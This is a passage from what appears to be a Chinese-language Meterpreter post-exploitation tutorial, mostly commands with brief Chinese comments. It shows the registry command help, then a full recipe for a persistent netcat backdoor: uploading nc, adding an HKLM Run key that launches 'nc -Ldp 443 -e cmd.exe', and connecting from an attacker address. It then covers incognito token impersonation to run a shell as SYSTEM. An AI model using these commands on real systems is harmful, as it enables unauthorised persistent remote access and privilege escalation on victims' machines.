```
meterpreter > reg -h
Usage: reg [command] [options]
Interact with the target machine's registry.

OPTIONS:

    -d <opt>  The data to store in the registry value.#注册表中值的数据
    -h        Help menu.
    -k <opt>  The registry key path (E.g. HKLM\Software\Foo).#注册表键路径
    -r <opt>  The remote machine name to connect to (with current process credentials#要连接的远程计算机名称（使用当前进程凭据）
    -t <opt>  The registry value type (E.g. REG_SZ).#注册表值类型
    -v <opt>  The registry value name (E.g. Stuff).#注册表键名称
    -w        Set KEY_WOW64 flag, valid values [32|64].#设置32位注册列表还是64位
COMMANDS:

    enumkey  Enumerate the supplied registry key [-k <key>]#枚举可获得的键
    createkey  Create the supplied registry key  [-k <key>]#创建提供的注册表项
    deletekey  Delete the supplied registry key  [-k <key>]#删除提供的注册表项
    queryclass Queries the class of the supplied key [-k <key>]#查询键值数据
    setval Set a registry value [-k <key> -v <val> -d <data>]#设置键值
    deleteval  Delete the supplied registry value [-k <key> -v <val>]#删除提供的注册表值
    queryval Queries the data contents of a value [-k <key> -v <val>]#查询值的数据内容
```

2）注册表设置 nc 后门

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibXmLgkf4iaMbaox9Kbia857qcNtn2kvCaRzjMPWeZAOcgFcm2Kgjy1jow/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibvFlDV2O6tjcXP41Ou1pEgFYT3ibmgOx67J077djqsQC0iaFVOskIz1PA/640?wx_fmt=png)

```
upload /root/Desktop/nc64.exe C://Users//dayu//Desktop   #上传nc,前面的是你要上传文件的位置
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run   #枚举run下的key
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v lltest_nc -d 'C://Users//dayu//Desktop//nc.exe -Ldp 443 -e cmd.exe' #设置键值
reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v lltest_nc   #查看键值

nc -v 192.168.0.142 443  #攻击者连接nc后门
```

植入后门！  

12. 令牌操作

1) 假冒令牌

![](https://mmbiz.qpic.cn/mmbiz_png/hI7MtRK64kDw29w1Eic5Gh4u4SrhyaziaibfqK7aNicVekK9TJyLMbib7YUOiatqB3mia8RkHgicJlOfkqIiccicKUv1FLuw/640?wx_fmt=png)

```
use incognito        #进入incognito模式
help incognito      #查看帮助
list_tokens -u        #查看可用的token
impersonate_token 'NT AUTHORITY\SYSTEM'    #假冒SYSTEM token,或者用下面的
#impersonate_token NT\ AUTHORITY\\SYSTEM   #不加单引号 需使用\\
execute -f cmd.exe -i –t            # -t 使用假冒的token执行或者直接shell
rev2self       #返回原始token
```
